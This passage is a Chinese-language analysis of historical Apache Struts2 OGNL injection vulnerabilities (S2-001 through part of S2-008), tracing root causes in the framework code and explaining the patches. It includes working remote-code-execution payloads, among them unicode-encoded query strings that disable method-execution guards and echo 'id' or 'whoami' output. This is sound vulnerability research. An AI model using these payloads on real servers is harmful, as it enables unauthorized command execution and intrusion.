







# struts2历史高危漏洞分析

原文连载地址：https://github.com/fa1c0n1/m01e-wiki/blob/main/Web%E9%80%9A%E7%94%A8%E8%BD%AF%E4%BB%B6%E6%BC%8F%E6%B4%9E/java/struts2/struts2%E5%8E%86%E5%8F%B2%E9%AB%98%E5%8D%B1%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.md


## 目录

- [前言](#preface)
- [S2-001](#s2-001)
- [S2-003](#s2-003)
- [S2-005](#s2-005)
- [S2-007](#s2-007)
- [S2-008](#s2-008)
- [S2-009](#s2-009)
- [S2-012](#s2-012)
- [S2-013](#s2-013)
- [S2-015](#s2-015)
- [S2-016](#s2-016)
- [S2-032](#s2-032)
- [S2-045](#s2-045)
- [S2-052](#s2-052)
- [S2-053](#s2-053)
- [S2-057](#s2-057)
- [S2-059](#s2-059)
- [S2-061](#s2-061)
- [小结](#summary)
- [Reference](#reference)

<a name="preface"></a>
## 前言

尽管现在struts2用的越来越少了，但对于漏洞研究人员来说，感兴趣的是漏洞的成因和漏洞的修复方式，因此还是有很大的学习价值的。毕竟Struts2作为一个很经典的MVC框架，无论对涉及到的框架知识，还是对过去多年出现的高危漏洞的原理进行学习，都会对之后学习和审计其他同类框架很有帮助。

<a name="s2-001"></a>
## S2-001

官方漏洞公告：<br>
https://cwiki.apache.org/confluence/display/WW/S2-001

影响版本：`Struts 2.0.0 - Struts 2.0.8`

## 漏洞复现和分析

根据漏洞描述，可知struts2中有个名为`altSyntax`的特性，该特性允许在表单中提交包含`OGNL`表达式的字符串(一般是通过文本字段，即struts2的`<s:textfile>`标签)，且可对包含OGNL的表达式进行递归计算。

漏洞复现环境使用的是docker镜像：`medicean/vulapps:s_struts2_s2-001`

这里先使用最简单的`PoC`进行调试：`%{2+5}`


Submit提交后，OGNL表达式返回结果并填充在`textfield`文本框中：


下面就来调试分析一下。<br>
由于漏洞是在struts2对文本标签`<s:textfield>`处理的过程中触发的，所以先找到相对应的处理类。在IDEA里，对着`<s:textfield>`处点击便可定位到文件`struts-tags.tld`，其中可看到该标签相关的一些属性定义，包括该标签的对应的处理类为：`org.apache.struts2.views.jsp.ui.TextFieldTag`。


在该类中搜索处理开始标签和结束标签的方法，发现其使用的是父类`ComponentTagSupport`的处理方法：`doStarTag`和`doEndTag`。


在这两个方法中下断点。经调试发现，触发漏洞是在`doEndTag`方法中。因此，当当前标签时`TextField`类型时，单步跟进调试。


调试进入`UIBean#evaluateParams()`方法中，当请求的参数中`value`为null时，则会根据`name`属性的值去获取对应的`value`属性的值。且`altSyntax`特性默认是开启的(该属性设置在struts2的文件`default.properties`中)，所以这里会用`OGNL`表达式的标识符`%{}`把`name`属性的值包住，比如当前表单的用户名文本输入框中，`name`属性的值为`username`，则加了`OGNL`表达式标识符后变为：`%{username}`，如下图：


继续跟进`findValue()`方法，后面会进入到`TextParserUtil#translateVariables()`方法中，如下图：


在`TextParserUtil#translateVariables()`方法中，有一个`while(true)`循环，这里会调用`OgnlValueStack#findValue()`方法来计算`OGNL`表达式(其实底层调用的还是`OGNL`的API)计算。<br>
计算`%{username}`，截取`%{}`里面的内容`username`，会从值栈ValueStack的`Root`对象中获取key为`username`的值，即`%{2+5}`。由于获取到的值`%{2+5}`仍然是一个`OGNL`表达式，故会再次进行计算，此时便是计算`2+5`得到值`7`。

>PS：本文不会详细讨论struts2的ValueStack、OGNL等知识点。
>想了解的朋友可参考陆舟的《Struts2技术内幕》一书中的第6章, 以及第8章的8.2小节。

到此，漏洞原理的部分已经分析完了。

由于比较好奇这里为什么表单文本框的内容提交后`OGNL`表达式的计算结果会以替换文本输入框内容的方式进行回显。于是便进一步调试。
发现在`UIBean#evaluateParams()`计算完成后，会进入`UIBean#mergeTemplate()`方法构造一个页面返回到客户端。跟进该方法，如下图：


可看到该方法中使用了模板引擎Freemarker进行页面的构造，这里主要先针对用户名的文本框进行构造，所需参数由`getParameters()`方法返回，返回的值里就包含了上面OGNL表达式`%{2+5}`的计算结果`7`，保存在`key`为`nameValue`的值中。<br>
再来看看此时使用的模板`template`参数的值`/template/xhtml/text`，最后定位到具体的模板文件`/template/simple/text.ftl`，内容如下图：


这就一目了然了：这里会判断参数`parameters`中的`nameValue`的值是否存在，存在的话便填充到该文本输入框的`value`属性中。

### 可回显PoC

这里使用OGNL上下文对象`context`去获取`HttpServletResponse`对象，如下图：


于是有：
```java
%{#p=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).start(),
#is=#p.getInputStream(),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#is)),
#arr=new char[50000],
#br.read(#arr),
#str=new java.lang.String(#arr),
#writer=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),
#writer.println(#str),
#writer.flush(),
#writer.close()}
```


## 漏洞修复

在struts2 `2.0.9`版本中，依赖的XWork的版本为`2.0.4`，在该版本中，`com.opensymphony.xwork2.util.TextParseUtil#translateVariables()` 判断循环的次数，如果超过`1`次，就退出`while(true)`循环体，从而避免`OGNL`表达式的递归执行，如下图所示。


换言之，在处理完`%{username}`后，就不能对获取到的值再进行OGNL表达式计算了。

<a name="s2-003"></a>
## S2-003

官方漏洞公告：<br>
https://cwiki.apache.org/confluence/display/WW/S2-003

影响版本：`Struts 2.0.0 - Struts 2.0.11.2`

## 漏洞复现与分析

如公告所述，该漏洞存在于Struts2默认的一个拦截器`ParametersInterceptor`。该过滤器在处理请求参数时，为了防止外界输入通过OGNL表达式来操作OGNL上下文对象`context`，对字符`#`进行了安全过滤。但由于OGNL可以识别unicode编码，故可将字符`#`进行unicode编码(即`\u0023`)后进行绕过。

下面来实际调试一下。

漏洞复现环境依旧使用`struts-2.0.11.2/apps/struts2-blank-2.0.11.2.war`。

客户端发送请求后，在`ParametersInterceptor#doIntercept()`方法里断下，然后会先调用`OgnlContextState.setDenyMethodExecution(contextMap, true)`方法来设置不允许OGNL表达式调用方法。然后调用`ParametersInterceptor#setParameters()`方法对请求参数进行处理。如下图：

>关于`OgnlContextState.setDenyMethodExecution(contextMap, true)`控制不允许OGNL表达式调用方法的实现原理，简单说一下：其实就是在OGNL上下文对象`context`内设置一个标志位，`key`为`XWorkMethodAccessor`的字符串常量`DENY_METHOD_EXECUTION`，值为`true`。当OGNL表达式里有方法调用时，OGNL的底层实现会调用`XWorkMethodAccessor#callMethod()`方法，里面会判断上下文对象`context`中`DENY_METHOD_EXECUTION`对应的值，如果是`true`，则不会执行方法，反之则执行方法。
>
>关于OGNL中`MethodAccessor`的知识点这里不详细讨论，请参考陆舟的《Struts2技术内幕》一书中第6章的6.3小节。


继续跟进`ParametersInterceptor#setParameters()`方法，里面会调用`ParametersInterceptor#acceptableName()`对参数名进行安全校验，即是否包含特殊字符`=,#:`。如果没有包含指定字符，则继续执行，会调用`OgnlValueStack#setValue()`对参数名进行OGNL表达式计算。


继续跟进，会调用`OgnlUtil#compile()`方法，当首次请求时，`expressions`这个`HashMap`集合中没有以当前表达式作为`key`的`value`，所以会调用`Ognl#parseExpression()`解析当前表达式，而解析后的结果存放到`expressions`这个`HashMap`集合中。


而`Ognl#parseExpression()`的解析过程中，后面会调用`JavaCharStream#readChar()`，该方法中，会对unicode编码转化为ASCII码字符。比如`\u0023`会转化为`#`。如下图：


综上，我们就可以将OGNL表达式中的特殊符号`=,#:`进行unicode编码后再发送，便可绕过`acceptableName()`方法的过滤。另外，再利用OGNL表达式的`Expression Evaluation`特性来编写PoC。
>说到OGNL的`Expression Evaluation`特性，它支持`(expr)`、`(expr1)(expr2)`或`(expr1)(expr2)(expr3)`这样的写法。<br>
>但遗憾的是，[官方文档](http://commons.apache.org/proper/commons-ognl/language-guide.html)对`Expression Evaluation`的用法解释得让人看不懂，因为它的字面意思跟这个漏洞公开的PoC的编写逻辑个人感觉对不上。<br>
另外，网上关于Struts2 RCE漏洞的分析文章大多数都没有对`(expr1)(expr2)`OGNL表达式求值背后的计算逻辑进行说明，少数有说到这个的却没有说明白。<br>
>我在调试这个漏洞的时候花了不少时间在`Ognl#setValue()`方法的底层实现上，想搞清楚它背后的运算逻辑，比如该漏洞的PoC为什么用`(java_code)(fuck)(fuck)`可以成功执行Java代码，而`(fuck)(fuck)(java_code)`这种调换了一下位置就不行？<br>
但调试的过程发现，其底层实现比较复杂，涉及到将字符串转换为Ognl底层的AST语法树，然后括号`()`中不同形式的表达式，OGNL底层会使用不同类型的`AST Node`类去表示，如果某个`AST Node`还是一个AST语法树的话，又继续解析。且不同类型的`AST Node`，其行为是不同的，比如有的方法用的父类`SimpleNode`的方法，有的是重写了自己的方法，而这些不同可能会决定了`()`表达式顺序如何摆放
才能成功执行Java代码。<br>
>另外，在调试过程中发现OGNL的代码里有用的注释很少...<br>
>所以到最后我都没办法用言语来描述它的运算规则。因此，我只能用一种笨办法来获得结论，就是用不同形式的求值表达式去做测试，看哪种形式可以成功执行Java代码，测试结果如下：<br>
>
>OGNL表达式求值(Expression Expression)：<br>
>1、如果是调用的`OgnlUtil.getValue()`方法，则以下表达式可以执行java代码：<br>
>- (java code)             
>- (java code)(fuck)
>- (fuck)(java code)
>- (java code)(fuck)(fuck)
>- (fuck)(java code)(fuck)
>
>2、如果是调用的OgnlUtil.setValue()方法，则以下表达式可以执行java代码：<br>
>- (java code)(fuck)
>- (fuck)(java code)
>- (java code)(fuck)(fuck)
>- (fuck)(java code)(fuck)

因为这个该漏洞时由`OgnlUtil.setValue()`方法去触发的，所以综上，可简单执行命令的PoC如下：
```
/xxx.action?
(a)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&(b)(%5cu0040java.lang.Runtime%5cu0040getRuntime().exec(%22touch%20/tmp/success2%22))
```

### 可回显PoC

与`S2-001`回显PoC同理，也是通过从上下文对象`context`获取`com.opensymphony.xwork2.dispatcher.HttpServletResponse`对象来实现，如下：
```
/xxx.action?
(a)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)(bla)
&(b)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('id'))(bla)
&(c)(%5cu0023dis%5cu003dnew%5cu0020java.io.BufferedReader(new%5cu0020java.io.InputStreamReader(%5cu0023ret.getInputStream())))(bla)
&(d)(%5cu0023res%5cu003dnew%5cu0020char[20000])(bla)
&(e)(%5cu0023dis.read(%5cu0023res))(bla)
&(f)(%5cu0023writer%5cu003d%5cu0023context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter())(bla)
&(g)(%5cu0023writer.println(new%5cu0020java.lang.String(%5cu0023res)))(bla)
&(h)(%5cu0023writer.flush())(bla)
&(i)(%5cu0023writer.close())(bla)
```


当然，这里用两个括号的形式也是可以的，但是无论用哪种，Java代码一定要放在第二个括号里，第一个括号里的用来决定表达式的执行顺序。因为在`ParametersInterceptor#setParameters()`方法中会把所有的url请求参数放在一个`TreeMap`里,且作为`key`进行存放。而`TreeMap`默认是会按照`key`进行字典排序的。所以如果要让PoC里所有的表达式都按照指定的先后顺序执行的话，必须使用第一个括号进行排序。比如上面回显PoC里第一个表达式先后依次就是`(a)`->`(b)`->`(c)`->`(d)`->`(e)`->`(f)`->`(g)`->`(h)`->`(i)`。

>注意：这个PoC在有的高版本的Tomcat会报400错误，提示`java.lang.IllegalArgumentException: Invalid character found in the request target. The valid characters are defined in RFC 7230 and RFC 3986`，这是因为高版本的Tomcat按照RFC规定实现，不允许URL中出现中括号`[]`，这时只需将URL里的中括号`[]`进行url编码即可。

## 漏洞修复

Struts2 `2.0.12`版本，依赖的XWork版本是`2.0.6`。通过比对XWork`2.0.6`和`2.0.5`版本的源码的不同，发现在类`OgnlValueStack`中使用了`SecurityMemberAccess`去替代`StaticMemberAccess`。


类`OgnlValueStack`还因实现了新接口`MemberAccessValueStack`而实现了其两个方法：


而这两个方法在`ParametersInterceptor#setParameters()`方法中被调用：


**那么`SecurityMemberAccess`这个类是如何起到防护作用的呢？**<br>
跟踪代码到最后OGNL表达式中如果有Java方法被调用的话，最终会调用`OgnlRuntime#callAppropriateMethod()`方法，里面有个`isMethodAccessible()`方法的判断：


从上图代码可知，`isMethodAccessible()`方法一定要返回`true`，才能继续往下走从而通过反射调用我们的Java方法，否则抛异常`NoSuchMethodException`。

继续跟进`isMethodAccessible()`，发现最终会调用`SecurityMemberAccess#isAcceptableProperty()`方法进行判断, 该方法要返回`true`才可以, 其实现如下:


很明显，需要`isAccepted()`返回`true`并且`isExcluded(name)`返回`false`才行。

而`isAccepted()`和`isExcluded()`的返回值取决于`SecurityMemberAccess`的两个属性：`acceptProperties`和`excludeProperties`。这两个属性的赋值前面提到，是在`ParametersInterceptor#setParameters()`方法中，其对应的值是`ParametersInterceptor`的两个属性`acceptParams`和`excludeParams`。通过阅读代码可知，`acceptParams`是一个空的集合，而`excludeParams`这个集合由于interceptor的配置文件中`ParametersInterceptor`的配置了该属性的初始值所以并不是空集合。其实这两个属性的值也可以通过调试可知。


所以`isAccepted()`是会返回`true`的，而`isExcluded()`也返回了`true`从而导致无法执行Java方法。

但这种修复方式，不治标也不治本。虽然给Java执行方法的门上了一把锁，但却把钥匙也插在锁上了，从而有了后面的S2-005。

<a name="s2-005"></a>
## S2-005

官方漏洞公告：<br>
https://cwiki.apache.org/confluence/display/WW/S2-005

影响版本：`Struts 2.0.0 - Struts 2.1.8.1`

## 漏洞复现与分析

漏洞环境：`Struts2-2.0.12/apps/struts2-blank-2.0.12.war`

从前面对S2-003的漏洞修复部分可以知道，只要想办法让`SecurityMemberAccess#isExcluded()`方法返回`false`，就能让我们注入的OGNL表达式中的Java方法执行。而要`SecurityMemberAccess#isExcluded()`方法返回`false`，就得让`SecurityMemberAccess`的`excludeProperties`这个集合置空才行。

通过查看源码，发现`SecurityMemberAccess`对象是在`OgnlValueStack`对象被创建时，存放到其`context`属性(即该值栈的上下文对象,`OgnlContext`)中的。


所以是不是可以通过OGNL表达式`#context['memberAccess']`就能访问`SecurityMemberAccess`对象了呢？

**答案是否定的**。

通过阅读`OgnlContext`的源码发现，`OgnlContext`虽然自身实现了`Map`集合接口，并重写了`Map#put()`和`Map#get()`方法。但并没有把`SecurityMemberAccess`对象`put()`到内部`Map`集合中，而是赋值给自己的成员变量`memberAccess`中。实际上，`OgnlContext`是使用了装饰模式去扩展`Map`接口的。其内部有两个`Map`类型的成员变量：`RESERVED_KEYS`和`values`来进行实际的`Map`容器存取操作。因此我们不能通过OGNL表达式`#context['memberAccess']`来访问`SecurityMemberAccess`对象。


但是从`OgnlContext`重写`Map`的`get()`方法中，我们看到了有意思的事，就是如果当`RESERVED_KEYS`集合包含名为`_memberAccess`的key时，会返回`SecurityMemberAccess`对象。而`RESERVED_KEYS`集合中确实是包含这个key的。所以我们就可以通过OGNL表达式`#context['_memberAccess']`或`#_memberAccess`去访问到`SecurityMemberAccess`对象。




因此简单执行命令的PoC如下：
```
/xxx.action?
(a)(%5cu0023_memberAccess.excludeProperties%5cu003d@java.util.Collections@EMPTY_SET)
&(b)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&(c)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('touch%5cu0020/tmp/success2'))
```

### 可回显PoC
与前面漏洞不同的是，本次漏洞的回显PoC无法向之前的方式去获取`com.opensymphony.xwork2.dispatcher.HttpServletResponse`对象来实现。经调试发现，因为当前`context`对象是在一个新的`OgnlValueStack`值栈对象(即`newStack`)里的，其中并没有这个键值，如下图：


因为这个里的`newStack`是由原来的`stack`新建的，阅读`OgnlValueStack(ValueStack)`构造方法的实现可知，新建的`newStack`并不会拷贝`stack`的`context`上下文对象的键值对。所以这里换一种方式，使用静态方法`ServletActionContext#getResponse()`去获取`HttpServletResponse`对象，实际上它获取的就是原来的`stack`值栈结构中的`context`上下文对象里的`com.opensymphony.xwork2.dispatcher.HttpServletResponse`。

因此构造可回显PoC如下：

```
/xxx.action?
(a)(%5cu0023_memberAccess.excludeProperties%5cu003d@java.util.Collections@EMPTY_SET)
&(b)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&(c)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('id'))
&(d)(%5cu0023dis%5cu003dnew%5cu0020java.io.BufferedReader(new%5cu0020java.io.InputStreamReader(%5cu0023ret.getInputStream())))
&(e)(%5cu0023res%5cu003dnew%5cu0020char[20000])
&(f)(%5cu0023dis.read(%5cu0023res))
&(g)(%5cu0023writer%5cu003d@org.apache.struts2.ServletActionContext@getResponse().getWriter())
&(h)(%5cu0023writer.println(new%5cu0020java.lang.String(%5cu0023res)))
&(i)(%5cu0023writer.flush())
&(j)(%5cu0023writer.close())
```


后来用Struts2 `2.1.8.1`版本也调了下，发现代码有细微差别。上面的PoC无效。不过实现思路是一样的，改一下即可：

```
/xxx.action?
(a)(%5cu0023_memberAccess.allowStaticMethodAccess%5cu003dtrue)
&(b)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&(c)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('id'))
&(d)(%5cu0023dis%5cu003dnew%5cu0020java.io.BufferedReader(new%5cu0020java.io.InputStreamReader(%5cu0023ret.getInputStream())))
&(e)(%5cu0023res%5cu003dnew%5cu0020char[20000])
&(f)(%5cu0023dis.read(%5cu0023res))
&(g)(%5cu0023writer%5cu003d@org.apache.struts2.ServletActionContext@getResponse().getWriter())
&(h)(%5cu0023writer.println(new%5cu0020java.lang.String(%5cu0023res)))
&(i)(%5cu0023writer.flush())
&(j)(%5cu0023writer.close())
```


## 漏洞修复

在Struts `2.2.1`版本中，使用了正则表达式匹配白名单字符的方式去校验请求url的参数：


<a name="s2-007"></a>
## S2-007

官方漏洞公告：<br>
https://cwiki.apache.org/confluence/display/WW/S2-007

影响版本：`Struts 2.0.0 - Struts 2.2.3`

## 漏洞复现与分析

从漏洞公告可获悉该漏洞出现的场景和PoC。

这里使用Struts2 `2.2.3`自带的示例应用`showcase`进行漏洞复现，找到校验器Validate部分，如下：


如上图，在`Integer Validator Field`一栏的输入框中，输入PoC `<' + #application + '>`，提交后，由于没有通过应用程序中定义的整数校验器的校验，所以将输入中包含的OGNL表达式进行解析，并将解析结果进行返回。


从漏洞公告中可获悉漏洞出现在struts2的默认拦截器`com.opensymphony.xwork2.interceptor.ConversionErrorInterceptor`的`getOverrideExpr()`方法中：

>但经调试发现,实际上调用的是其子类`StrutsConversionErrorInterceptor`的`getOverrideExpr()`方法。


如上图，该方法返回`"'" + value + "'"`。结合给出的PoC，很容易可猜想到，该方法会将文本输入框中提交过来的字符串用单引号`'`包裹上，原因应该是为了防止OGNL表达式的执行。很明显，可构造输入将这里的单引号`'`左右都进行闭合，便可以绕过防护。

>在调试分析该漏洞前，建议先了解下struts2的主体架构和运行主线，关于这个可参考陆舟编著的《Struts2技术内幕》第七、第八章。
>
>另外，还需要了解一下struts2的校验器框架的原理。关于这个可参考链接：https://blog.csdn.net/Mark_LQ/article/details/49837507

下面来实际调试分析一下。

struts2提供的校验器框架，也是通过拦截器去实现的。按照拦截器的先后顺序，下面会提及最后的四个：


1. `params`对应的类：`com.opensymphony.xwork2.interceptor.ParametersInterceptor`
2. `conversionError`对应的类：`org.apache.struts2.interceptor.StrutsConversionErrorInterceptor`
3. `validation`对应的类：`org.apache.struts2.interceptor.validation.AnnotationValidationInterceptor`
4. `workflow`对应的类：`com.opensymphony.xwork2.interceptor.DefaultWorkflowInterceptor`

表单提交后，会先到拦截器`ParametersInterceptor#doIntercept()`进行处理，会把参数存到当前值栈ValueStack的上下文对象context中，然后再把执行的控制权移交下一个拦截器`StrutsConversionErrorInterceptor`去执行。


`StrutsConversionErrorInterceptor`从`ActionContext`中将转化类型时发生的错误信息添加到校验器对应的Action对象的FieldError中，在校验时候经常被使用到来在页面中显示类型转化错误的信息。


另外，还会将类型转化失败的参数值传入`getOverrideExpr()`方法进行处理，处理后再通过回调的方式保存到当前值栈ValueStack对象的属性`overrides`中，该属性是一个`Map`集合。


问题就出现在这个`getOverrideExpr()`，这里只是简单的用单引号`'`包裹文本框输入。所以输入的时候添加单引号`'`将这里的单引号闭合即可让OGNL表达式跳出单引号的包裹。

拦截器`StrutsConversionErrorInterceptor`处理完后就将执行的控制权移交给下一个拦截器`AnnotationValidationInterceptor`。

`AnnotationValidationInterceptor`的职责就是获取应用程序定义的校验器(validator)，并使用这些校验器对用户输入进行校验，结果是校验失败。校验结束后，将执行的控制权移交给最后一个拦截器`DefaultWorkflowInterceptor`。

由于在`AnnotationValidationInterceptor`中使用校验器校验用户输入的结果是校验失败，所以在`DefaultWorkflowInterceptor`中就根据该结果，返回字符串`"input"`，产生的结果就是返回`input`视图页面，从而中止了整个执行栈的调度执行。

接着就是构造`input`的视图页面，它是JSP页面，所以后面的漏洞触发流程也就跟`S2-001`差不多了，调用栈如下：
```
TextFieldTag#doEndTag()
  ComponentTagSupport#doEndTag()
    UIBean#end()
      UIBean#evaluateParams()
        Component#findValue()
          TextParseUtil#translateVariables()
            OgnlValueStack#findValue()
              OgnlValueStack#tryFindValueWhenExpressionIsNotNull()
                OgnlValueStack#tryFindValue()
                  OgnlValueStack#lookupForOverrides()
                  OgnlValueStack#getValue()
```

其中，在`OgnlValueStack#lookupForOverrides()`方法中会取出当前值栈的`overrides`属性，该属性中存放了前面类型转化失败的入参，也就是文本框中输入的内容。取出来后进行OGNL表达式计算。




至此，该漏洞的原理分析完了。

### 可回显PoC

```
' + (
#_memberAccess.allowStaticMethodAccess=true,
#context['xwork.MethodAccessor.denyMethodExecution']=false,
#ret=@java.lang.Runtime@getRuntime().exec('id'),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#ret.getInputStream())),
#res=new char[20000],
#br.read(#res),
#writer=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),
#writer.println(new java.lang.String(#res)),
#writer.flush(),
#writer.close()
) + '
```


## 漏洞修复

Struts2 `2.2.3.1`版本，依赖的XWork的版本也是`2.2.3.1`，在默认拦截器`org.apache.struts2.interceptor.StrutsConversionErrorInterceptor`的`getOverrideExpr()`方法中进行了修复。


如上图所示，对输入字符串中的双引号进行了转义后，再用双引号将其包裹。从而避免了输入字符串中的双引号闭合左右两边的双引号。

<a name="s2-008"></a>
## S2-008

官方漏洞公告：
https://cwiki.apache.org/confluence/display/WW/S2-008

影响版本：Struts 2.0.0 - Struts 2.3.1

从漏洞公告可知，`S2-008`一共4个漏洞。第一个漏洞与`S2-007`漏洞点类似，故不再关注。这里只关注能RCE类型的第`2`个和第`4`个漏洞。

- 1、**Remote command execution in CookieInterceptor**
- 2、 **Remote command execution in DebuggingInterceptor**

## 漏洞复现与分析

### vuln-1：Remote command execution in CookieInterceptor

拦截器`CookieInterceptor`在struts2中默认是不开启的。需要在应用的`struts.xml`配置文件中手动开启，且要配置参数才行，如下图：


其实该漏洞跟`S2-005`类似，是因为在`CookieInterceptor`拦截器中没有对`cookie`进行合法性校验从而导致了可以在`cookie`的键`key`位置注入恶意的OGNL表达式。


然而主流Web容器比如Tomcat，会对`cookie`的名称有字符限制，一些关键字符无法使用使得这个漏洞点显得比较鸡肋。

尽管如此，在后续的修复版本中，还是在`CookieInterceptor`中增加了正则表达式进行字符白名单匹配。


### vuln-2：Remote command execution in DebuggingInterceptor

该漏洞的前提条件是需要应用开启`devMode`模式。


